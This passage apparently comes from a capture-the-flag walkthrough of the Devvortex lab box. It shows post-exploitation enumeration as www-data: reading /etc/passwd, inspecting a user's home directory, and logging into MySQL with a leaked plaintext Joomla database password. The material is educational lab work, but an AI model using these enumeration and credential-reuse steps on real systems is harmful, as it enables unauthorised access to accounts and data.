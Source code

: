 #### Home Directories

There's only one user on this box with a home directory or a shell set:



    www-data@devvortex:/home$ ls
    logan
    www-data@devvortex:/home$ cat /etc/passwd | grep 'sh$'
    root:x:0:0:root:/root:/bin/bash
    logan:x:1000:1000:,,,:/home/logan:/bin/bash



www-data is able to read in this directory, but the only interesting
file is `user.txt`, which www-data cannot read:



    www-data@devvortex:/home$ ls -la logan/
    total 28
    drwxr-xr-x 3 logan logan 4096 Nov 21 11:04 .
    drwxr-xr-x 3 root  root  4096 Sep 26  2023 ..
    lrwxrwxrwx 1 root  root     9 Oct 26 14:58 .bash_history -> /dev/null
    -rw-r--r-- 1 logan logan  220 Sep 26  2023 .bash_logout
    -rw-r--r-- 1 logan logan 3771 Sep 26  2023 .bashrc
    drwx------ 2 logan logan 4096 Oct 26 15:12 .cache
    -rw-r--r-- 1 logan logan  807 Sep 26  2023 .profile
    -rw-r----- 1 root  logan   33 Apr 22 22:12 user.txt



#### SQL

There is a logan user in Joomla, and I already have the MySQL connection
information from the leak of:

-   Database: joomla
-   User: lewis
-   Password: P4ntherg0t1n5r3c0n##
-   Host: localhost

I'll connect:



    www-data@devvortex:~$ mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla
    ...[snip]...
    mysql>



There are no other interesting databases:



    mysql> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | joomla             |
    | performance_schema |
    +--------------------+
    3 rows in set (0.00 sec)
